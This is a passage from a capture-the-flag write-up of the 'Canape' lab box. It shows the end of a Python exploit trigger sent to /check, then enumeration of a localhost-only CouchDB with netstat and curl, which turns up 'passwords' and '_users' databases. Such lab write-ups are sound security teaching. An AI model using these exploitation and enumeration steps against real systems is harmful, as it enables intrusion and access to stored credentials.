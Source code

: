 ```

    print("[+] Triggering exploit with /check, id = {}".format(id_))
    try:
        r = requests.post('http://10.10.10.70/check', data = {'id': id_}, timeout=1)
    except:
        pass

if __name__ == "__main__":
    main()

```

## PrivEsc: www-data –> homer

There are a few interesting artifacts on the box, but it turns out that the path forward is in the CouchDB instance.

### CouchDB

#### Enumeration

The page source also showed that the simpsons quotes were stored in a couchdb:

```

app.config.update(
    DATABASE = "simpsons"
)
db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]

```

The couchdb is only on localhost:

```

www-data@canape:/var/www/git$ netstat -ano | grep "LISTEN "
netstat -ano | grep "LISTEN "
tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:41991           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::65535                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::4369                 :::*                    LISTEN      off (0.00/0/0)

```

To interact with couchdb, use curl from the local access. The passwords and \_users dbs seem interesting, but neither is accessible:

```

www-data@canape:/var/www/git$ curl http://localhost:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]

```
